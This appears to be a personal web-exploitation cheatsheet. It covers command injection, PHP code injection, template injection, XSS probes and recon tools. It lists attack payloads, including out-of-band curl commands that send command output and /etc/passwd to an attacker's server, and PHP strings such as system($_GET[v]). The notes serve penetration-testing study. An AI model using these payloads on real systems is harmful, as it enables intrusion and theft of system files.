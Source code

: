 # Cybersecurity Cheatsheet

## Table Of Contents

- [Cybersecurity Cheatsheet](#cybersecurity-cheatsheet)
  - [Table Of Contents](#table-of-contents)
  - [Web Exploitation](#web-exploitation)
    - [Start Hack](#start-hack)
    - [Techniques](#techniques)
    - [Command Injection](#command-injection)
      - [Useful commands](#useful-commands)
      - [Out of band in OS command injection](#out-of-band-in-os-command-injection)
        - [`curl`](#curl)
        - [`ping` and `dig`](#ping-and-dig)
    - [Code Injection](#code-injection)
    - [Server Side Template Injection](#server-side-template-injection)
    - [XSS](#xss)
  - [Recon](#recon)
  - [Handwrite Notes](#handwrite-notes)

## Web Exploitation

### Start Hack

1. Work with the website, the workflow, buttons, forms, etc.
2. [OS command injection](#command-injection)
3. Code injection
4. Server side template injection
5. XSS

### Techniques

| Key            | Description                                                      |
| -------------- | ---------------------------------------------------------------- |
| Verb Tampering | Send different methods requests to a path to see vulnerabilities |
| HTTP request   | Use hex or encode URL                                            |
| CORS           | If enabled, the best vulnerability                               |

### Command Injection

| Key                        | Description                                                 |
| -------------------------- | ----------------------------------------------------------- |
| `$ ls;pwd`                 | Run multiple commands with semicolon                        |
| `$ ls && pwd`              | If the first result command is ok, run the second           |
| `$ ls \|\| pwd`            | OR                                                          |
| `$ ls \| pwd`              | Pipe                                                        |
| `$ ls & pwd`               | & shows the PID process. But we use for multiple commands   |
| `$ ping 127.0.0.1;ls -c 1` | Inject `ls; -c 1` or `ls # -c 1` or `ls %23 -c 1` to bypass |

**No result:** what to do if we can not get the command result in response? Use the `sleep 20` command 
to find whether it has vulnerabilty or not

#### Useful commands
When you have identified an OS command injection vulnerability, it is generally useful to execute some initial commands to obtain information about the system that you have compromised. Below is a summary of some commands that are useful on Linux and Windows platforms:

| Purpose of command    | Linux       | Windows       |
| --------------------- | ----------- | ------------- |
| Name of current user  | whoami      | whoami        |
| Operating system      | uname -a    | ver           |
| Network configuration | ifconfig    | ipconfig /all |
| Network connections   | netstat -an | netstat -an   |
| Running processes     | ps -ef      | tasklist      |

#### Out of band in OS command injection

##### `curl`

1. Run a server in hacker's computer (better to bind it to `80` or `443` or `53` port)
2. Inject these commands: 
    - `$ curl <addr>/?key=value`
    - to run a command (e.g. `ls -l`) use this command `$ curl <addr> -d "$(ls -l)"`
    - to send file, use this command `$ curl <addr> -d @/etc/passwd`
3. See the logs in the server

##### `ping` and `dig`

Sometimes the HTTP protocol is not allowed, so we can use `ping` or `dig` to send data to the server. The attacker can create a DNS server to receive the data.

### Code Injection

The `eval("print (2 + 2);")` function in PHP runs a code

- e.g. `eval("ping $ip")` **bypass** by adding `"` or `'` or  
**exploit:** `";phpinfo();`

- **Comment:** Maybe we should comment the front codes. Use `//` or `#` for PHP.
- **Input limitation:** execute a shell with `system()` or `shell_exec()` or `exec()` or `aval()` in PHP.
    - e.g. `system($_GET[v])`


### Server Side Template Injection

- Tool for this volnerability: [tplmap][1]
- Input these: `{2*2}` or `{`
- **exploit:** for PHP and Smarty engine, `{php}phpinfo(){/php}`

### XSS

Check these payloads:

- `<h1></h1>`
- `test">`
- `<script></script>`

## Recon

- **trufflehog:** Find credentials all over the place. [documents][2]
```bash 
$ trufflehog git https://github.com/ILoveBacteria/calculator-telegram-bot --no-update
```

- **SecLists:** The security tester's companion. [documents][3]
- **dirsearch:** A tool designed to brute force directories and files in websites. [documents][4]
  
```bash

## Handwrite Notes

| #     | Key           | Description                                                                 |
| ----- | ------------- | --------------------------------------------------------------------------- |
| **1** | `http.server` | Create a simple fantastic HTTP server with Python. `python3 -m http.server` |
| **2** | `dig`         | `$ dig A <addr>` find the host IP. Maybe this is a virtual host             |
| **3** | VH            | `$ curl <IP> -H "Host: <addr>"`                                             |


[1]: https://github.com/epinna/tplmap
[2]: https://github.com/trufflesecurity/trufflehog
[3]: https://github.com/danielmiessler/SecLists
[4]: https://github.com/maurosoria/dirsearch